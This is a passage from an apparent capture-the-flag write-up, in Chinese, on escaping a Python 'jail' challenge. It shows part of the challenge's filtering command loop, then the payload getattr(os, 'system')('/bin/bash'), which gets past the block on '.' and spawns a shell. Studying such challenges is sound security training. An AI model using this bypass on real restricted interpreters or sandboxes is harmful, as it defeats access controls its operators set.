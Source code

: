 ```
        return cmd.Cmd.emptyline(self)
 
    def default(self, line):
        sys.stdout.write('\x00')
 
    def postcmd(self, stop, line):
        if any(f in line for f in self.filtered):
            print("Do you think my code is so insecure ?")
            print("You can never get out of my jail :)")
        else:
           try:
                execute(line)
           except NameError:
                print("NameError: name '%s' is not defined" % line)
           except Exception:
                print("Error: %s" % line)
        return cmd.Cmd.postcmd(self, stop, line)
 
if __name__ == "__main__":
    try:
        Jail().cmdloop(intro)
    except KeyboardInterrupt:
        print("\rBye bye !")
```

可以先看有哪些 import 進來，然後 . 被過濾了

```
>>> print(dir())
['Jail', '__builtins__', '__cached__', '__doc__', '__file__', '__loader__', '__name__', '__package__', '__spec__', 'cmd', 'execute', 'intro', 'os', 'sys']
>>> os
>>> os.system
Do you think my code is so insecure ?
You can never get out of my jail :)
```

然後這題的 trick 是利用 getattr 去開 shell

```
print(getattr(os, "system")("/bin/bash"))
```

getattr(os, 'system') 等同於 os.system




